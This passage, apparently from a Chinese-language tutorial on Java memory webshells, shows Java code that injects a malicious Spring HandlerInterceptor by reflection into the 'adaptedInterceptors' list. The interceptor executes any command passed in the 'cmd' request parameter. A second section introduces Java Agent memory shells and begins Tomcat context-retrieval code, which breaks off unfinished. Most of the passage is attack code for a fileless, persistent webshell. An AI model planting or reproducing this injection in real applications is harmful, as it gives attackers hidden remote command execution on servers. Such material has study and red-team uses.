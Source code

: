 获取当前运行环境的上下文<br />实现恶意Interceptor<br />注入恶意Interceptor
```java

......   
@Controller
public class Inject_Shell_Interceptor_Controller {

    @ResponseBody
    @RequestMapping("/inject")
    public void Inject() throws ClassNotFoundException, NoSuchFieldException, IllegalAccessException {

        //获取上下文环境
        WebApplicationContext context = RequestContextUtils.findWebApplicationContext(((ServletRequestAttributes) RequestContextHolder.currentRequestAttributes()).getRequest());

        //获取adaptedInterceptors属性值
        org.springframework.web.servlet.handler.AbstractHandlerMapping abstractHandlerMapping = (org.springframework.web.servlet.handler.AbstractHandlerMapping)context.getBean(RequestMappingHandlerMapping.class);
        java.lang.reflect.Field field = org.springframework.web.servlet.handler.AbstractHandlerMapping.class.getDeclaredField("adaptedInterceptors");
        field.setAccessible(true);
        java.util.ArrayList<Object> adaptedInterceptors = (java.util.ArrayList<Object>)field.get(abstractHandlerMapping);


        //将恶意Interceptor添加入adaptedInterceptors
        Shell_Interceptor shell_interceptor = new Shell_Interceptor();
        adaptedInterceptors.add(shell_interceptor);
    }

    public class Shell_Interceptor implements HandlerInterceptor{
        @Override
        public boolean preHandle(HttpServletRequest request, HttpServletResponse response, Object handler) throws Exception {
            String cmd = request.getParameter("cmd");
            if (cmd != null) {
                try {
                    Runtime.getRuntime().exec(cmd);
......   

```
<a name="ZcMhQ"></a>
## Agent内存马
Java Agent就是一种能在不影响正常编译的前提下，修改Java字节码，进而动态地修改已加载或未加载的类、属性和方法的技术。
```java
......    
@WebServlet("/response")
public class Tomcat_Echo_Response extends HttpServlet {
    @Override
    protected void doGet(HttpServletRequest req, HttpServletResponse resp) throws ServletException, IOException {

        //获取StandardService
        org.apache.catalina.loader.WebappClassLoaderBase webappClassLoaderBase = (org.apache.catalina.loader.WebappClassLoaderBase) Thread.currentThread().getContextClassLoader();
        StandardContext standardContext = (StandardContext) webappClassLoaderBase.getResources().getContext();

        System.out.println(standardContext);

        try {
```